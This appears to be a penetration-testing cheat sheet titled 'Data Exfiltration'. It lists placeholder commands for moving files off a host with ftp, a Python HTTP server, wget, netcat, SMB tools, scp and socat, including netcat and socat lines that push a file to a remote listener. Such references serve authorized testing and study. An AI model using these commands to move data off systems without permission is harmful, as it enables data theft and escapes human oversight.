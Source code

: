 # Data Exfiltration  

## ftp  
`ftp [FTP SERVER ADDRESS] or ftp`  
`open    - connect to an ftp server`  
`user    - enter ftp username`  
`pass    - enter ftp password`  
`bi      - binary file transfer mode`  
`hash    - enable file transfer status`  
`get     - download a file`  
`put     - upload a file`  
`mget    - download multiple files`  
`mput    - upload multiple files`  
`prompt  - enable/disable interaction (disable if downloading multiple files)`

## http  
Using Python3 to run a temporary web server to allow file downloads from the current directory:  
`$ sudo python3 -m http.server [port]`  

Using wget 
`$ wget <url> -O <destinationfile>`

## netcat
source sends the file  
source: `$nc -w 3 <DESTINATION> <PORT> < FILENAME>`  
destination: `$nc -l -p <PORT> > <FILENAME>`

destination pulls file
source: `$nc -l -p <PORT> < <FILENAME>`
destination: `$nc -w 3 <SOURCE> <PORT> > <FILENAME>`    

## rdp  
if RDP is available on the system, connect and copy/paste between the rdp client and the desktop.  This has a 2GB file size limit.  For larger file transfers, [mount a local drive](https://helpdeskgeek.com/networking/accessing-local-files-and-folders-on-remote-desktop-session/)  

 
## smb/windows file sharing  
Using smbserver.py  
smbserver.py is a python script that will create an open share in a folder of choice.  Once running, you can browse and interact through it using regular windows file sharing tools, such as Windows Explorer.  
`$ sudo smbserver.py <SHARE NAME> <LOCAL FOLDER>`  

Using cifs-utils to mount an smb share  
`$ sudo mkdir /mnt/<LOCAL FOLDER>`  
`$ sudo mount -t cifs -o username=<SHARE USER>,domain=<WINDOWS DOMAIN> //<SHARE IP>/<SHARE NAME> /mnt/<LOCAL FOLDER>`  

Using smbclient cli:  
`$ sudo smbclient \\\\<HOSTNAME>\\<SHARE>`  

In the cli:  
`cd    - change remote directory`  
`dir   - list directory`  
`get   - download file (file will be downloaded to local directory)`  
`put   - upload file (file will be uploaded to remote directory)`  
`help  - help menu`  
`exit  - exits the cli`  

Copying files from the Windows command line:  
using drive letters  
`net use <DRIVE LETTER>: \\<SMBSHARE>`  
`copy <DRIVE LETTER\SOURCE> <DRIVE LETTER\DESTINATION>`  
  
without drive letters  
`xcopy <\\HOST\SOURCE> <\\HOST\DESTINATION>`  

## ssh/scp  
`$ scp <USER>@<SOURCEHOST>:<\DIRECTORY\FILE> <USER>@<DESTINATIONHOST>:<\DIRECTORY\FILE>`  

## socat  
source: `socat FILE:<FILENAME> TCP-LISTEN:<PORT>`  
destination:  `socat TCP:<HOST>:<PORT> FILE:<FILENAME>,create`  





